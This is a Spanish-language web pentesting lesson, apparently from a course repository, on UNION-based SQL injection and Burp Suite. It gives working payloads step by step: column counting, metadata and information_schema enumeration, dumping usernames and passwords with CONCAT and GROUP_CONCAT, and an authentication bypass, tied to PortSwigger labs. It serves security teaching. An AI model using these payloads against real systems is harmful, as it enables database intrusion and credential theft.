




# Lección 03: UNION SQL injection y Burp Suite

[Inicio](../../../README.md) | [Pentesting Web](../../README.md) | [Módulo SQLi](../README.md) | [Anterior: Subversión de lógica](../02-subversion-logica/README.md) | [Siguiente: Ingeniería defensiva y mitigaciones](../04-defensa-y-mitigaciones/README.md)

> [!CAUTION]
> La exfiltración de bases de datos mediante UNION SQL Injection y el uso de proxies de interceptación deben realizarse exclusivamente sobre entornos propios o expresamente autorizados por contrato.

## Introducción

La inyección SQL basada en **`UNION`** permite anexar el conjunto de resultados de una consulta arbitraria a la respuesta de una consulta legítima en la aplicación. Si el frontend proyecta las filas devueltas en la interfaz, el auditor puede extraer metadatos del sistema, esquemas de tablas y credenciales confidenciales de forma directa.

La operativa profesional de esta técnica requiere combinar el análisis sintáctico con el uso de herramientas de interceptación HTTP como **Burp Suite** para inspeccionar, manipular y automatizar las cargas útiles (*payloads*).



---

## 1. Fundamentos de la inyección basada en UNION

El operador `UNION` consolida los registros de dos sentencias `SELECT` distintas en una sola respuesta entregada al backend:



Si la aplicación refleja en pantalla las columnas de la consulta original, las filas anexadas por la inyección se imprimirán en el mismo contexto visual.

---

## 2. Metodología de explotación UNION en cinco fases

La explotación estructurada con `UNION` sigue una secuencia ordenada de cinco fases de validación:



### Fase 1: Determinación del número de columnas

El operador `UNION` exige que ambas consultas devuelvan **el mismo número exacto de columnas**. Para identificar esta cifra se emplean dos técnicas:

#### Técnica A: Fuzzing con `ORDER BY`

La cláusula `ORDER BY N` ordena por la columna en posición $N$. Si $N$ supera el total de columnas, el motor genera un error de sintaxis:

```text
' ORDER BY 1-- -   -> Respuesta normal (200 OK)
' ORDER BY 2-- -   -> Respuesta normal (200 OK)
' ORDER BY 3-- -   -> Respuesta normal (200 OK)
' ORDER BY 4-- -   -> Error de base de datos (500 Internal Server Error)
```

El último valor válido ($N = 3$) confirma que la consulta original proyecta **3 columnas**.

#### Técnica B: Payloads incrementales con `UNION SELECT NULL`

El valor `NULL` es compatible con la mayoría de tipos de datos en los principales motores:

```text
' UNION SELECT NULL-- -             -> Error (número incorrecto de columnas)
' UNION SELECT NULL, NULL-- -       -> Error (número incorrecto de columnas)
' UNION SELECT NULL, NULL, NULL-- - -> Respuesta exitosa (3 columnas confirmadas)
```

---

### Fase 2: Identificación de columnas reflectivas de texto

Una vez establecido el número de columnas, se determina cuáles admiten cadenas alfanuméricas (`VARCHAR`/`TEXT`) y se proyectan en el HTML:

```text
' UNION SELECT 'a', NULL, NULL-- -
' UNION SELECT NULL, 'a', NULL-- -
' UNION SELECT NULL, NULL, 'a'-- -
```

Si el valor `'a'` se visualiza en la página al colocarlo en la segunda posición, la **columna 2** funciona como canal de salida reflectivo.

---

### Fase 3: Extracción de metadatos del entorno

Con la posición reflectiva identificada, se sustituye el valor de prueba por funciones de inspección del motor:

```sql
' UNION SELECT NULL, @@version, NULL-- -
' UNION SELECT NULL, database(), NULL-- -
' UNION SELECT NULL, user(), NULL-- -
```

| Función / Variable | Motor | Información obtenida |
|---|---|---|
| `database()` | MariaDB / MySQL | Nombre de la base de datos activa. |
| `user()` / `current_user()` | MariaDB / MySQL | Cuenta y host de la conexión (`appuser@localhost`). |
| `version()` o `@@version` | MariaDB / MySQL / MSSQL | Versión exacta del motor RDBMS. |
| `current_database()` | PostgreSQL | Base de datos activa. |
| `v$version` | Oracle | Versión del gestor Oracle. |

---

### Fase 4: Enumeración estructurada de information_schema

Con el nombre de la base de datos activa (ej. `tienda`), se consulta el catálogo de metadatos del servidor:

#### 1. Enumerar bases de datos disponibles
```sql
' UNION SELECT NULL, schema_name, NULL FROM information_schema.schemata-- -
```

#### 2. Enumerar tablas del esquema objetivo
```sql
' UNION SELECT NULL, table_name, NULL FROM information_schema.tables WHERE table_schema = 'tienda'-- -
```

#### 3. Enumerar columnas de la tabla sensible (`users`)
```sql
' UNION SELECT NULL, column_name, NULL FROM information_schema.columns WHERE table_schema = 'tienda' AND table_name = 'users'-- -
```

---

### Fase 5: Volcado de credenciales y registros protegidos

Confirmada la existencia de la tabla `users` y sus columnas `username` y `password`, se formula la consulta de extracción:

```sql
' UNION SELECT NULL, username, password FROM users-- -
```

#### Concatenación de campos en una sola columna

Si la interfaz solo refleja una columna visible, se emplean funciones de concatenación:

```sql
-- MariaDB / MySQL con delimitador explícito
' UNION SELECT NULL, CONCAT(username, ' ~ ', password), NULL FROM users-- -

-- Delimitación múltiple con CONCAT_WS
' UNION SELECT NULL, CONCAT_WS(':', id, username, password, role), NULL FROM users-- -
```

Cuando la aplicación solo renderiza la primera fila de la respuesta, la función `GROUP_CONCAT` compacta todas las filas del conjunto en una única cadena:

```sql
' UNION SELECT NULL, GROUP_CONCAT(username, ':', password SEPARATOR ' | '), NULL FROM users-- -
```

---

## 3. Arquitectura y operativa esencial con Burp Suite

**Burp Suite** actúa como proxy local intermediario entre el navegador y la aplicación objetivo, permitiendo inspeccionar, interceptar y alterar peticiones HTTP:



### Componentes fundamentales

#### 1. Proxy e Intercept
- Permite detener el tráfico saliente (`Intercept is on`) antes de que alcance el servidor.
- Proporciona las acciones **Forward** (enviar), **Drop** (descartar) y transferencia a otros módulos (`Send to Repeater`).
- Dispone de un navegador preconfigurado con el certificado CA raíz de PortSwigger para inspeccionar HTTPS sin alertas de certificado.

#### 2. HTTP History
- Registra pasivamente todas las peticiones y respuestas intercambiadas.
- Permite filtrar por dominios en alcance (*in-scope*) y analizar parámetros, cabeceras y códigos de respuesta históricos.

#### 3. Repeater (`Ctrl + R`)
- Permite modificar valores individuales de cabeceras, parámetros de query string y cuerpos de petición para emitirlos repetidamente.
- Facilita la observación inmediata de variaciones en **Status Code**, **Response Length** y tiempo de respuesta.

#### 4. Intruder (`Ctrl + I`)
- Automatiza el envío de listas de cargas útiles sobre posiciones delimitadas por marcadores (`§`).
- Modos de ataque:
  - **Sniper**: Una lista de payloads sobre una posición a la vez (fuzzing y prueba individual).
  - **Battering Ram**: Un mismo payload simultáneo en todas las posiciones.
  - **Pitchfork**: Múltiples listas iteradas en paralelo.
  - **Cluster Bomb**: Producto cartesiano de todas las listas (fuerza bruta de credenciales).

---

## 4. Laboratorios guiados en Web Security Academy

La plataforma **PortSwigger Web Security Academy** ofrece entornos prácticos para validar estas técnicas:

👉 [PortSwigger Web Security Academy - SQL Injection](https://portswigger.net/web-security/sql-injection)

### Laboratorio 1: Subversión en cláusula WHERE (Datos ocultos)
- **Objetivo**: Modificar el filtro de categoría para listar productos no publicados (`unreleased`).
- **Técnica**: Inyección de tautología `' OR 1=1 -- -`.

### Laboratorio 2: Bypass de autenticación
- **Objetivo**: Iniciar sesión como `administrator` omitiendo la comprobación de clave.
- **Técnica**: Inyección en el parámetro de usuario: `administrator' -- -`.

### Laboratorio 3: UNION SQLi (Determinación de columnas)
- **Objetivo**: Descubrir el número de columnas devueltas por la consulta de catálogo.
- **Técnica**: Payloads secuenciales `' ORDER BY N-- -` o `' UNION SELECT NULL...`.

### Laboratorio 4: UNION SQLi (Identificación de columna compatible con texto)
- **Objetivo**: Determinar qué columna refleja texto alfanumérico en pantalla.
- **Técnica**: Payloads posicionales `' UNION SELECT 'test', NULL-- -`.

### Laboratorio 5: UNION SQLi (Extracción de credenciales)
- **Objetivo**: Exfiltrar usuarios y contraseñas de la tabla `users` e iniciar sesión como administrador.
- **Técnica**: `' UNION SELECT username, password FROM users-- -`.

---

## Cheatsheet

Referencia rápida del capítulo en formato PDF: [cheatsheet.pdf](./cheatsheet.pdf).

---

[Anterior: Subversión de lógica](../02-subversion-logica/README.md) | [Volver al índice del módulo](../README.md) | [Siguiente: Ingeniería defensiva y mitigaciones](../04-defensa-y-mitigaciones/README.md)
